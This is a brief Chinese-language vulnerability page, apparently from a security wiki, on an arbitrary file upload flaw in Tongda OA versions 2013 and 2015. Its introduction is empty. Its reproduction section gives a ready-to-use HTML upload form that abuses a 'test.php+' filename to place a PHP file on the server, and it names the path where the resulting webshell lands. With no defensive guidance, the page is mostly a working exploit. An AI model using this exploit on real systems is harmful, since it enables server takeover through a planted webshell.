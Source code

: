 ```yaml
---
title: 通达oa 任意⽂件上传漏洞
id: zhfly3341
---
```


# 通达oa 任意⽂件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

EXP:

```
<form enctype="multipart/form-data" action="http://0-sec.org/general/vmeet/wbUpload.php
?fileName=test.php+" method="post">
<input type="file" name="Filedata" size="50"><br>
<input type="submit" value="Upload">
</form> 
```

上传jpg之后shell地址为

```
http://0-sec.org/general/vmeet/wbUpload/test.php 
```